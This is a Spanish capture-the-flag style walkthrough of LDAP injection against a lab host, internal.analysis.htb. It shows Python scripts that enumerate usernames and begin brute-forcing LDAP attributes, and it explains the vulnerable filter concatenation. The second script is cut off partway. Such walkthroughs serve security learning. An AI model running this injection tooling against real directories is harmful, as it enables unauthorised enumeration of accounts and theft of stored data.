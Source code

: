 ```python
        username= re.findall(r'<strong>(.*?)</strong>', content)[0]
        if "CONTACT_" not in username:
            print(colored(f"Username: ", 'yellow')+username)


if __name__=='__main__':
    
    injection()
```

Usando la libreria requests de python podemos hacer la peticion HTTP y jugando con el bucle y regects podemos filtar los usuarios por fin.

![users](../../../../../assets/analysis/username.png)

Ya tenemos los usuarios... pero ya está, no tenemos nada mas. Así que vamos a creearnos otro script para ver si podemos listar algo. No tenia mucha idea de como funcionan las peticiones LDAP, pero teniendo ya un poco de conocimiento de como funcionan las sqli,  podemos hacernos una idea de lo que podemos conseguir. Así que me puse a buscar un poco de informacion su estructura y eso.

- Primero entendamos como se establece una inyección LDAP. La petición hace un llamado a la filtracion y hace un concatenación, entonce spor eso nos permite hacer la inyección
    `filter = "(&(objectClass=user)(name=" + user_input + "))"i`

- Nosotros nos estamos aprovechando de este error y concatenamos los atributos que queremos, podemos probar con los que encontré en está pagina [Atributos](https://help.bizagi.com/platform/es/index.html?ldap_attributes.htm) buscando _Ldap atributos comunes_.


```python


#! /usr/bin/env python3

import requests
import signal
import sys 
import re
import string
from termcolor import colored
from pwn import *

def exit(a,b):
    print(colored(f"\nLeaving.....", 'red'))
    sys.exit(0)


signal.signal(signal.SIGINT, exit)
url= 'http://internal.analysis.htb/users/list.php?name='
characters= string.ascii_letters + string.digits 
names = ['amanson', 'badam', 'jangel', 'lzen', 'technician']
parameters= ['company', 'description', 'displayName', 'dc']

def injection():
     
    log1 = log.progress("Strating Ingection")
    log1.status("Starting :S")
    log2 = log.progress("Analyzing")
    print()
    
```